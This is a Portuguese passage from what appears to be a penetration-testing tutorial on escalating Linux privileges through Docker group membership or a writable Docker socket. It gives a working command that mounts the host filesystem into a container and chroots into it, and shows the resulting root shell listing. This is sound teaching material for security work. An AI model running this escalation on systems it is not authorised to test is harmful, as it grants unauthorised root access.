 ```shell-session
docker-user@nix02:~$ id

uid=1000(docker-user) gid=1000(docker-user) groups=1000(docker-user),116(docker)
```

Alternativamente, o Docker pode ter o SUID definido, ou estamos no arquivo Sudoers, o que nos permite executar `docker`como root. Todas as três opções nos permitem trabalhar com o Docker para escalar nossos privilégios.

A maioria dos hosts tem uma conexão direta com a internet porque as imagens base e os contêineres devem ser baixados. No entanto, muitos hosts podem ser desconectados da internet à noite e fora do horário de trabalho por motivos de segurança. No entanto, se esses hosts estiverem localizados em uma rede onde, por exemplo, um servidor web tem que passar, ele ainda pode ser alcançado.

Para ver quais imagens existem e quais podemos acessar, podemos usar o seguinte comando:

```shell-session
docker-user@nix02:~$ docker image ls

REPOSITORY                           TAG                 IMAGE ID       CREATED         SIZE
ubuntu                               20.04               20fffa419e3a   2 days ago    72.8MB
```

### Soquete Docker
Um caso que também pode ocorrer é quando o socket Docker é gravável. Normalmente, esse socket está localizado em `/var/run/docker.sock`.

No entanto, o local pode ser compreensivelmente diferente. Porque basicamente, isso só pode ser escrito pelo grupo root ou docker. Se agirmos como um usuário, não em um desses dois grupos, e o socket Docker ainda tiver os privilégios para ser gravável, então ainda podemos usar esse caso para escalar nossos privilégios.

```shell-session
docker-user@nix02:~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

```shell-session
root@ubuntu:~# ls -l

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
<SNIP>
```
